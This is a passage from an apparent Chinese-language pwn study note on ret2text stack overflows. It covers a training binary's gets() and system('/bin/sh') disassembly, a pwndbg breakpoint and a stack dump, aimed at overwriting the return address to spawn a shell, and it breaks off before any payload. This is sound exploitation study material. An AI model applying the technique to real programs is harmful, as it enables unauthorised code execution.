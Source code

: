# 简单栈溢出

ret2text 即控制程序执行程序本身已有的的代码 (.text)。其实，这种攻击方法是一种笼统的描述。我们控制执行程序已有的代码的时候也可以控制程序执行好几段不相邻的程序已有的代码 (也就是 gadgets)，这就是我们所要说的 ROP。

这时，我们需要知道对应返回的代码的位置。当然程序也可能会开启某些保护，我们需要想办法去绕过这些保护。

## **ret2text**

IDA查看,使用了get()函数,可能存在栈溢出,同时在子函数secure中存在 `system(/bin/sh)`,对应地址 `0x8048763`.我们只要让栈溢出填充返回地址为目标地址即可.

```
.text:080486A7 8D 44 24 1C                   lea     eax, [esp+80h+s]
.text:080486AB 89 04 24                      mov     [esp], eax                      ; s
.text:080486AE E8 AD FD FF FF                call    _gets
.text:080486AE

.text:0804863A C7 04 24 63 87 04 08          mov     dword ptr [esp], offset command ; "/bin/sh"
.text:08048641 E8 4A FE FF FF                call    _system
.text:08048641

```

gdb动调:

先在get处打断点

```bash
pwndbg> b *0x80486A7
Breakpoint 1 at 0x80486a7: file ret2text.c, line 24.
```

填充数据后查看栈内数据情况

```c
pwndbg> n
aaaaaaaaaaaaaaaa
...
pwndbg> stack 40
```
--------------------------------------

<pre>
<span style="color:#EC0101"><b>pwndbg&gt; </b></span>stack 40
00:0000│ <b>esp</b> <span style="color:#FEA44C">0xffffcac0</span> —▸ <span style="color:#FEA44C">0xffffcadc</span> ◂— &apos;aaaaaaaaaaaaaaaaaaaaaa&apos;
01:0004│ <b>   </b> <span style="color:#FEA44C">0xffffcac4</span> ◂— 0x0
02:0008│ <b>   </b> <span style="color:#FEA44C">0xffffcac8</span> ◂— 0x1
03:000c│ <b>   </b> <span style="color:#FEA44C">0xffffcacc</span> ◂— 0x0
04:0010│ <b>   </b> <span style="color:#FEA44C">0xffffcad0</span> —▸ <span style="color:#9755B3">0xf7ffdb8c</span> —▸ <span style="color:#9755B3">0xf7fc26f0</span> —▸ <span style="color:#9755B3">0xf7ffda20</span> ◂— 0x0
05:0014│ <b>   </b> <span style="color:#FEA44C">0xffffcad4</span> ◂— 0x1
06:0018│ <b>   </b> <span style="color:#FEA44C">0xffffcad8</span> —▸ <span style="color:#9755B3">0xf7fc2720</span> —▸ <span style="color:#D41919">0x8048354</span> ◂— <span style="color:#AFD700">inc</span><span style="color:#FFFFFF"> </span><span style="color:#5FD7FF">edi</span> /* &apos;GLIBC_2.0&apos; */
07:001c│ <b>eax</b> <span style="color:#FEA44C">0xffffcadc</span> ◂— &apos;aaaaaaaaaaaaaaaaaaaaaa&apos;
... ↓        4 skipped
0c:0030│ <b>   </b> <span style="color:#FEA44C">0xffffcaf0</span> ◂— 0xff006161 /* &apos;aa&apos; */
0d:0034│ <b>   </b> <span style="color:#FEA44C">0xffffcaf4</span> —▸ 0xf7fca67c ◂— 0xe
0e:0038│ <b>   </b> <span style="color:#FEA44C">0xffffcaf8</span> —▸ <span style="color:#9755B3">0xf7ffd5e8 (_rtld_global+1512)</span> —▸ 0xf7fca000 ◂— 0x464c457f
0f:003c│ <b>   </b> <span style="color:#FEA44C">0xffffcafc</span> —▸ <span style="color:#FEA44C">0xffffdfba</span> ◂— &apos;/home/taotie/Desktop/pwnstudy/StackOverflow/ret2text/ret2text&apos;
10:0040│ <b>   </b> <span style="color:#FEA44C">0xffffcb00</span> —▸ 0xf7ffcff4 (_GLOBAL_OFFSET_TABLE_) ◂— 0x32f34
11:0044│ <b>   </b> <span style="color:#FEA44C">0xffffcb04</span> ◂— 0xc /* &apos;\x0c&apos; */
12:0048│ <b>   </b> <span style="color:#FEA44C">0xffffcb08</span> ◂— 0x0
... ↓        3 skipped
16:0058│ <b>   </b> <span style="color:#FEA44C">0xffffcb18</span> ◂— 0x13
17:005c│ <b>   </b> <span style="color:#FEA44C">0xffffcb1c</span> —▸ <span style="color:#9755B3">0xf7fc2400</span> —▸ 0xf7c00000 ◂— 0x464c457f
18:0060│ <b>   </b> <span style="color:#FEA44C">0xffffcb20</span> —▸ 0xf7c216ac ◂— 0x21e04c
19:0064│ <b>   </b> <span style="color:#FEA44C">0xffffcb24</span> —▸ <span style="color:#D41919">0xf7fd9e51 (_dl_fixup+225)</span> ◂— <span style="color:#AFD700">mov</span><span style="color:#FFFFFF"> </span><span style="color:#5FD7FF">dword</span><span style="color:#FFFFFF"> </span><span style="color:#5FD7FF">ptr</span><span style="color:#FFFFFF"> [</span><span style="color:#5FD7FF">esp</span><span style="color:#FFFFFF"> + </span><span style="color:#AF87FF">0x28</span><span style="color:#FFFFFF">], </span><span style="color:#5FD7FF">eax</span>
1a:0068│ <b>   </b> <span style="color:#FEA44C">0xffffcb28</span> —▸ 0xf7c1c9a2 ◂— &apos;_dl_audit_preinit&apos;
1b:006c│ <b>   </b> <span style="color:#FEA44C">0xffffcb2c</span> —▸ <span style="color:#9755B3">0xf7fc2400</span> —▸ 0xf7c00000 ◂— 0x464c457f
1c:0070│ <b>   </b> <span style="color:#FEA44C">0xffffcb30</span> —▸ <span style="color:#FEA44C">0xffffcb60</span> —▸ 0xf7e1dff4 (_GLOBAL_OFFSET_TABLE_) ◂— 0x21dd8c
1d:0074│ <b>   </b> <span style="color:#FEA44C">0xffffcb34</span> —▸ <span style="color:#9755B3">0xf7fc25d8</span> —▸ <span style="color:#9755B3">0xf7ffdb8c</span> —▸ <span style="color:#9755B3">0xf7fc26f0</span> —▸ <span style="color:#9755B3">0xf7ffda20</span> ◂— ...
1e:0078│ <b>   </b> <span style="color:#FEA44C">0xffffcb38</span> —▸ <span style="color:#9755B3">0xf7fc2ab0</span> —▸ 0xf7c1f22d ◂— &apos;GLIBC_PRIVATE&apos;
1f:007c│ <b>   </b> <span style="color:#FEA44C">0xffffcb3c</span> ◂— 0x1
20:0080│ <b>   </b> <span style="color:#FEA44C">0xffffcb40</span> ◂— 0x1
21:0084│ <b>   </b> <span style="color:#FEA44C">0xffffcb44</span> ◂— 0x0
22:0088│ <b>ebp</b> <span style="color:#FEA44C">0xffffcb48</span> ◂— 0x0
23:008c│ <b>   </b> <span style="color:#FEA44C">0xffffcb4c</span> —▸ <span style="color:#D41919">0xf7c237c5 (__libc_start_call_main+117)</span> ◂— <span style="color:#AFD700">add</span><span style="color:#FFFFFF"> </span><span style="color:#5FD7FF">esp</span><span style="color:#FFFFFF">, </span><span style="color:#AF87FF">0x10</span>
24:0090│ <b>   </b> <span style="color:#FEA44C">0xffffcb50</span> ◂— 0x1
25:0094│ <b>   </b> <span style="color:#FEA44C">0xffffcb54</span> —▸ <span style="color:#FEA44C">0xffffcc04</span> —▸ <span style="color:#FEA44C">0xffffce20</span> ◂— &apos;/home/taotie/Desktop/pwnstudy/StackOverflow/ret2text/ret2text&apos;
26:0098│ <b>   </b> <span style="color:#FEA44C">0xffffcb58</span> —▸ <span style="color:#FEA44C">0xffffcc0c</span> —▸ <span style="color:#FEA44C">0xffffce5e</span> ◂— &apos;GDMSESSION=gnome&apos;
27:009c│ <b>   </b> <span style="color:#FEA44C">0xffffcb5c</span> —▸ <span style="color:#FEA44C">0xffffcb70</span> —▸ 0xf7e1dff4 (_GLOBAL_OFFSET_TABLE_) ◂— 0x21dd8c
</pre>
-------------
